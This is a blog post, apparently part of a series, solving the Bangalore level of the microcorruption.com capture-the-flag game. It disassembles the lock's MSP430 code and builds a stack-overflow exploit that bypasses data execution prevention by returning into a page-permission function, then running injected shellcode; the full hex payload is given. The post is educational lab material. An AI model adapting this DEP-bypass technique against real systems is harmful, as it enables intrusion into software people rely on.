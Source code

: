 ```yaml
---
layout: post
title: 'Fun with Assembly 16: Data Execution Prevention'
date: 2015-09-02
status: publish
type: post
published: true
author: Hywel Carver
---
```

This is the sixteenth in a series. You might want to read the [previous post]({% post_url 2015-09-01-fun-with-assembly-15 %}) before reading this.

This post is based on the Bangalore level on [microcorruption.com](http://microcorruption.com). Like last time, we’re trying to find an input to open a lock without knowing the correct password, using knowledge of assembly language.

# First steps

This level is introduced to us as having memory protection - every page of memory is either writable or executable but never both, normally called [Data Execution Prevention](https://en.wikipedia.org/wiki/Data_Execution_Prevention). The lock manual describes a few relevant interrupts for this: `INT 0x10` turns on DEP, `INT 0x11` takes a page number and a second argument of 1 if the page is writable and 0 if its executable.

Let's look through the code. The main function here calls `set_up_protection` then `login`, and that's all.

### `set_up_protection`

    44de <set_up_protection>
    44de:  0b12           push  r11
    44e0:  0f43           clr   r15
    44e2:  b012 b444      call  #0x44b4 <mark_page_executable>
    44e6:  1b43           mov   #0x1, r11
    44e8:  0f4b           mov   r11, r15
    44ea:  b012 9c44      call  #0x449c <mark_page_writable>
    44ee:  1b53           inc   r11
    44f0:  3b90 4400      cmp   #0x44, r11
    44f4:  f923           jne   #0x44e8 <set_up_protection+0xa>

Mark page 0 as executable, mark pages up to `0x43` = 67 as writable.

    44f6:  0f4b           mov   r11, r15
    44f8:  b012 b444      call  #0x44b4 <mark_page_executable>
    44fc:  1b53           inc   r11
    44fe:  3b90 0001      cmp   #0x100, r11
    4502:  f923           jne   #0x44f6 <set_up_protection+0x18>

Mark pages from `0x44` to `0x100` (68 to 255) as executable.

    4504:  b012 cc44      call  #0x44cc <turn_on_dep>
    4508:  3b41           pop   r11
    450a:  3041           ret
    450c:  3041           ret

Then turn on the protection. The executable areas will be the `0x00xx` addresses and the `0x44xx` addresses onwards. `0x4400` is where the code segment starts. It's not clear why there are two `ret`s here.

### `login`

Luckily, the `login` function is much shorter this time.

    4512 <login>
    4512:  3150 f0ff      add   #0xfff0, sp
    4516:  3f40 0024      mov   #0x2400, r15
    451a:  b012 7a44      call  #0x447a <puts>
    451e:  3f40 2024      mov   #0x2420, r15
    4522:  b012 7a44      call  #0x447a <puts>

Increase the stack by 16 bytes, then write out a couple of strings.

    4526:  3e40 3000      mov   #0x30, r14
    452a:  0f41           mov   sp, r15
    452c:  b012 6244      call  #0x4462 <getsn>

Get 48 bytes of input onto the stack pointer.

    4530:  3f40 6524      mov   #0x2465, r15
    4534:  b012 7a44      call  #0x447a <puts>
    4538:  3150 1000      add   #0x10, sp
    453c:  3041           ret 

Cheekily, this immediately writes out that we had the wrong password. It doesn't even check with the lock! We're going to have to somehow get the code to execute instructions which don't currently exist.

### Developing an exploit.

Normally, the lock is opened by calling `INT` with a value of `0x7f`. Looking back at the `INT` function from a previous level, you can see that this will result in the `sr` register being `0xff00`, then `call #0x10` being executed.

    4904 <INT>
    4904:  0c4f           mov   r15, r12
    4906:  0d12           push  r13
    4908:  0e12           push  r14
    490a:  0c12           push  r12
    490c:  0012           push  pc
    490e:  0212           push  sr
    4910:  0f4c           mov   r12, r15
    4912:  8f10           swpb  r15
    4914:  024f           mov   r15, sr
    4916:  32d0 0080      bis   #0x8000, sr
    491a:  b012 1000      call  #0x10
    491e:  3241           pop   sr
    4920:  3152           add   #0x8, sp
    4922:  3041           ret

It's tempting to think that we could write our own assembly code to do this, put that onto the stack, and then manipulate the return value of the `login` function to return into that code. However, because of the DEP, the stack is writable so it isn't exectuable.

But what if we could make the stack executable once we'd written to it? We could return into the `mark_page_executable` function, and setup the stack so that the page of the stack that we write onto is made executable. To do that, we'd want to return to `0x44ba`, and to have `0x40` and `0x00` next on the stack so that the 40th page is set to executable.

That function finishes by decreasing the size of the stack (so we need 2 bytes of filler) then returning. We can manipulate this return value too (the next two bytes on the stack), so let's set it to be the next byte along on the stack, so that we can write bytecode to be returned to. That's going to be `0x4006`.

At that point we should insert some instructions that call an interrupt with the right parameter. We'll need to move the stack pointer to be in a writeable page, so that the system call doesn't fail. Compiling the instructions:

    add #0xfff0, sp
    mov #0xff00, sr
    call #0x10

we get `3150f0ff324000ffb0121000` as our bytecode.

So in total our exploit is:
 - `0x4142434445464748494a4b4c4d4e4f50` (to fill up the allocated buffer)
 - `0xba44` (to return into the function that will make a page executable)
 - `0x4000` to set page 40 as writable (with the second argument of 0)
 - `0x4141` as 2 bytes of filler
 - `0x0640` so that the next return takes us to execute from `0x4006` on the stack
 - `0x3150f0ff324000ffb0121000`, the bytecode, which will start at address `0x4006`

`0x4142434445464748494a4b4c4d4e4f50ba444000414106403150f0ff324000ffb0121000`

# The door springs open

This was a complicated exploit. Because we could overflow the stack by a long way, we could overwrite a return address on the stack, and add parameters to a system call. That was enough to overcome the DEP. By continuing the pattern of overwriting return adresses, we could return the CPU to start executing on part of the string we inputted.

That part of the string contained the bytecode required to open the lock.